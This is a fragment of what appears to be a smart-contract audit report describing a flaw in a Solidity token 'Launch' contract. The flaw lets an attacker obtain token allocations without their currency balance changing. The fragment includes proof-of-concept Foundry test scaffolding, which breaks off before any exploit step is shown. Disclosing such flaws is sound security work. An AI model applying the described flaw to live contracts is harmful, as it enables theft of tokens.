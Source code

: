 ```currencyAmount ``` attacker can continuously receive token allocations for free while their currency balance remains unchanged.
        returns (uint256)
    {
        uint256 tokenPriceBps = launch.getLaunchGroupCurrencyConfig(launchGroupId, currencyAddress).tokenPriceBps;
        return Math.mulDiv(tokenPriceBps, tokenAmount, 10 ** launch.tokenDecimals());
    }

    function _initializeLaunch(address adminAddress, address withdrawalAddress) internal {
        address proxyAddress = UnsafeUpgrades.deployTransparentProxy(
            address(new Launch()),
            adminAddress,
            abi.encodeWithSelector(Launch.initialize.selector, withdrawalAddress, testLaunchId, adminAddress, 10)
        );
        launch = Launch(proxyAddress);
    }
}



```


Copy and paste the following in the `Launch.Vulnerability.t.sol` file. 



Launch.Vulnerability.t.sol
```solidity

// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IERC20Errors} from "@openzeppelin/contracts/interfaces/draft-IERC6093.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestVulnerabilityBase} from "./LaunchTestVulnerabilityBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    CancelParticipationRequest,
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    ParticipationInfo,
    CurrencyConfig
} from "../src/Types.sol";
import {console} from "forge-std/console.sol";

contract LaunchVulnerability is Test, LaunchTestVulnerabilityBase {
     function setUp() public {
        _setUpLaunch();
    }

    function test_Vulnerable_Participate_FinalizesAtParticipation() public {
        // Setup new launch group
        bytes32 launchGroupId = bytes32(uint256(1));
        LaunchGroupSettings memory settings = _setupLaunchGroupWithStatus(launchGroupId, LaunchGroupStatus.PENDING);
        settings.finalizesAtParticipation = true;
        vm.startPrank(manager);
        launch.setLaunchGroupSettings(launchGroupId, settings);
        launch.setLaunchGroupStatus(launchGroupId, LaunchGroupStatus.ACTIVE);
        vm.stopPrank();

```